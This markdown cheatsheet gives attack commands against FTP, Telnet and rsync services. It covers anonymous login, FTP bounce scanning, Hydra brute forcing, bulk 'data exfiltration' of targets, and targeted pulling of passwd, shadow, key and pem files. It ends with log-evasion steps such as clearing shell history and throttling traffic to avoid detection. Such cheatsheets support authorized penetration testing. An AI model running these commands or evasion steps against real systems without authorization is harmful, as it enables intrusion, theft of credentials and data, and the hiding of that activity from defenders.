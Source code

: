 # Cleartext Protocols Cheatsheet

## FTP

### Service Discovery & Banner Grabbing
* Basic FTP connection: `ftp <target_ip>`
* Netcat banner grab: `echo "QUIT" \| nc <target_ip> 21`
* Nmap service detection: `nmap -sV -p 21 <target_ip>`
* Nmap with FTP-specific scripts: `nmap --script ftp-anon,ftp-bounce,ftp-brute,ftp-proftpd-backdoor,ftp-vsftpd-backdoor -p 21 <target_ip>`

### Anonymous Access
* Username: `anonymous`
* Password (if needed): `anonymous@example.com` (or any other existing or non-existing email address)

### FTP Bounce Scanning
* Use FTP server as proxy for port scanning: `nmap -b anonymous:anonymous@<ftp_server> <internal_target>`

### Data Exfiltration
* Bulk recursive download: `wget -r ftp://anonymous:anonymous@<target_ip>`
* Advanced FTP client: `lftp ftp://anonymous:anonymous@<target_ip>` → `mirror <remote_path> <local_path>`

## Telnet

### Service Discovery
* Basic Telnet connection: `telnet <target_ip> 23`
* Nmap service detection: `nmap -sV -p 23 <target_ip>`
* Nmap with Telnet-specific scripts: `nmap --script telnet-brute,telnet-encryption,telnet-ntlm-info -p 23 <target_ip>`

### Port Scanning
* Scan common Telnet ports: `nmap -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`
* Service detection on multiple ports: `nmap -sV -p 23,2223,2322,2323,8023,9999,10001 <target_ip>`

### Hydra
* Hydra brute force: `hydra -L usernames.txt -P passwords.txt telnet://<target_ip> -vV -t4 -I`

### Initial Reconnaissance Commands

### Session Enumeration

| Command | Description |
|---------|-------------|
| `who` | Currently logged-in users |
| `w` | System users and their processes |
| `last` | Recent login/logout history |
| `users` | List of current usernames |
| `tty` | Current terminal name |
| `ps -t $(tty)` | Processes running on current terminal |

### Session Cleanup

| Command | Description |
|---------|-------------|
| `history -c` | Clear command history |
| `unset HISTFILE` | Disable history logging |
| `rm ~/.bash_history 2>/dev/null` | Remove history file |
| `unalias ls 2>/dev/null` | Remove command aliases |

## rsync

### Service Discovery
* Basic rsync service test and module listing: `rsync <target_ip>::`
* Explicit module listing: `rsync --list-only <target_ip>`
* Scan common rsync ports: `nmap -p 873,8873,9873 <target_ip>`
* Service detection: `nmap -sV -p 873 <target_ip>`

### Module Enumeration
* Detailed module information: `rsync -av --list-only <target_ip>::<module_name>`
* Test common modules: `for module in backup home www data etc opt var; do echo "Testing module: $module"; rsync --list-only <target_ip>::$module 2>/dev/null; done`

### File Type Hunting
* Search for specific valuable file types: `rsync -avz --list-only <target_ip>::<module>/ \| grep -E '\.(conf\|cfg\|ini\|bak\|sql\|log)$'`

### Data Extraction
* Complete module mirror: `rsync -avz <target_ip>::<module>/ ./rsync_dump/`
* Selective file extraction: `rsync -avz --include="*.conf" --include="*.cfg" --exclude="*" <target_ip>::<module>/ ./configs/`
* Bandwidth-limited extraction: `rsync -avz --bwlimit=100 <target_ip>::<module>/ ./slow_dump/`

### High-Value File Extraction
```bash
rsync -avz --include="*passwd*" --include="*shadow*" --include="*config*" \
--include="*.conf" --include="*.cfg" --include="*.ini" \
--include="*.bak" --include="*.sql" --include="*.key" \
--include="*.pem" --exclude="*" <target_ip>::<module>/ ./intel/
```

### Write Access Testing
1. Create test file: `echo "rsync_test_$(date)" > test_file.txt`
2. Attempt upload: `rsync -avz test_file.txt <target_ip>::<module>`
3. Verify upload: `rsync --list-only <target_ip>::<module>/ \| grep test_file.txt`

## Detection Evasion & Operational Security

### Traffic Obfuscation

| Technique | Command Example |
|-----------|-----------------|
| Bandwidth limiting | `rsync -avz --bwlimit=50 --delay-updates <target>::<module>/ ./stealth_dump` |
| Randomized delays | `sleep $((RANDOM % 300 + 60))` (1-6 minute random delay) |

### Log Evasion

| Protocol | Evasion Technique |
|----------|-------------------|
| FTP | Use realistic email addresses for anonymous login |
| Telnet | Clear command history before disconnect |
| rsync | Use bandwidth limiting to appear as legitimate sync |

## Common Service Implementations

### FTP Implementations

| Implementation | Typical Banner |
|----------------|----------------|
| vsftpd | `220 (vsFTPd 3.0.3)` |
| ProFTPD | `220 ProFTPD Server` |
| Pure-FTPd | `220 Pure-FTPd Server` |
| FileZilla Server | `220-FileZilla Server` |
| Microsoft IIS | `220 Microsoft FTP Service` |

### Telnet Implementations

| Implementation | Typical Identifier |
|----------------|-------------------|
| Linux telnetd | `Debian GNU/Linux` or similar OS banner |
| Windows Telnet Server | `Welcome to Microsoft Telnet Server` |
| Cisco IOS | `User Access Verification` |
| BusyBox | `Welcome to ... (built-in shell)` |

Reach out: https://linktr.ee/january1073
